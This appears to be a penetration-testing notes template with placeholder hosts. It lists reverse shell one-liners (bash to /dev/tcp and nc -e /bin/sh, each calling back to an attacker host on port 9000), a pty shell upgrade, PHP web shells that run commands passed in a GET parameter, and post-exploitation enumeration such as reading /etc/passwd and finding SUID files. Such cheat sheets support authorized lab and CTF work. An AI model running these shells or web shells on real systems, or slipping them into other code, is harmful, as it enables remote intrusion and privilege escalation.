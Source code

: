 ## {{TARGET}}

### Update `/etc/hosts`
```bash
{{RHOST}}   {{TARGET}}
```
 
### Set Aliases
```bash
nano ~/.bash_aliases
{{QUICK_DIR}}
source ~/.profile
```

### Quick Shells
#### Unix
```bash
bash -i >& /dev/tcp/{{LHOST}}/9000 0>&1
nc -e /bin/sh {{LHOST}} 9000
nc {{LHOST}} 9000

# Upgrade Shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### PHP
```php
<?php echo shell_exec($_GET['cmd']);?>
<?php echo system($_GET["cmd"]) ?>
```

### Sys Enum
#### Unix
```bash
cat /etc/passwd
sudo -l
ss -tnl
netstat -lntp
groups
find / -perm /4000 2> /dev/null
find / -perm /6000 2> /dev/null
```
